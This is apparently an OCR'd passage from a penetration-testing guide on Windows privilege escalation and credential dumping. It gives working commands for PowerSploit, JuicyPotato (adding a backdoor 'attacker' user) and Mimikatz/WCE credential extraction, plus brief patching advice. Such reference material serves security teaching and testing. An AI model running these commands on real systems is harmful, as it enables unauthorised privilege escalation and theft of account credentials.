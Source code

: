     Command Examples:

        Using PowerSploit:

        powershell

Import-Module PowerSploit
Invoke-PrivescCheck

Using Windows Exploit Suggester:

bash

windows-exploit-suggester.py --database 2024-08-23-mssb.xls --systeminfo systeminfo.txt

Using Juicy Potato:

bash

        JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user attacker P@ssw0rd /add"

    Recommendations:
        Regularly apply security patches to minimize exploitable vulnerabilities.
        Restrict access to administrative accounts and use least privilege principles.

B. Credential Dumping

Description: Credential dumping is a technique used to extract account login information from compromised systems. Obtaining these credentials allows attackers to move laterally within a network and access other systems.

    Common Tools and Techniques:
        Mimikatz: A popular tool for extracting plaintext passwords, hash, PINs, and Kerberos tickets from memory.
        Windows Credential Editor (WCE): Can be used to list logon sessions and add, change, list credentials.
        Invoke-Mimikatz: PowerShell implementation of Mimikatz, which allows execution directly from memory.

    Command Examples:

        Using Mimikatz:

        bash

mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

Using WCE:

bash

wce.exe -w

Using Invoke-Mimikatz:

powershell

        Import-Module Invoke-Mimikatz.ps1
        Invoke-Mimikatz -DumpCreds

